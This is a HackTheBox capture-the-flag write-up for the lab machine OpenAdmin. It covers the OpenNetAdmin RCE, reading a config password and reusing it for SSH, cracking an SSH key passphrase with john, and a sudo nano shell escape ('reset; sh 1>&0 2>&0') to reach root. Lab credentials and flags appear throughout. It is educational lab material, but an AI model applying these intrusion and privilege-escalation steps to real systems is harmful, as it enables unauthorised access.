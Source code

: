 ## OpenAdmin HackTheBox solution

# Basic enumeration

dirbing, directories found:
* /artwork
* /music

*music* leads to .
```http://10.10.10.171/ona/```

user intefrace reveals:
* database name ona_default
* database username ona_user
* mysqli in locahost

# CVE hunting

open net admin v18.1.1 has [RCE vuln](https://www.nmmapper.com/st/exploitdetails/47691/42023/opennetadmin-1811-remote-code-execution/)

```
rc-ona.sh http://10.10.10.171/ona/

$ ls -latr /home
total 16
drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
drwxr-x---  6 joanna joanna 4096 Jan 15 22:33 joanna
drwxr-x---  6 jimmy  jimmy  4096 Jan 15 22:34 jimmy
```

Now we have user names. And database password:

```
$ cat local/config/*
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```

ops, jimmy has that password for ssh..

## SQL database

```
select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2020-01-15 23:09:48 | 2020-01-15 23:09:48 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

212.. is admin decoded from the hash.

*jimmy* is in group *internal*

```
find / -group internal
```
/var/www/internal contains some files.

```
cat /var/www/internal/main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

And 
```
hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
```

Revealed is the password for the hash

```
jimmy@openadmin:~$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D
```

Now we get the private key. 
what is the "ninja" password???

anyway, user flag:
c9b2cf07d40807e62af62660f0c81b5f

# Going for the root

open the ssh like this:
```
ssh -L 127.0.0.1:6666:127.0.0.1:52846 jimmy@10.10.10.171
```

First 127.. is a bind address, preventing anyone else from connecting to client machine. Second one is the target, the server is listening only local connections at OpenAadmin.

Now we can access from the localhost easily
```
root@rot-t420:~/htb-notes/openadmin# curl localhost:6666/main.php
```

Upload a web shell and we can explore as *Joanna*, without knowing the annoying "ninja" password, whatever that is.

## Ninja password

okay, the ninjapassword can be found by cracking the key
```
ssh2john privakey > johnpriva
john --wordlist=/usr/share/wordlists/rockyou.txt johnpriva
it's "bloodninjas"
```

## Final priv esc from nano

road to root from joanna is stupid.
joanna can edit /opt/priv file with sudo using *nano*. Why? No reason, totally absurd.
Anyway, nano can be exited to shell using ^R^X and then interactive shell can be spawned. There's the flag.

```
Command to execute: reset; sh 1>&0 2>&0# cat /root/root.txt                                                           
2f907ed450b361b2c2bf4e8795d5b561                           ^X Read File
#  Cancel                                  
```
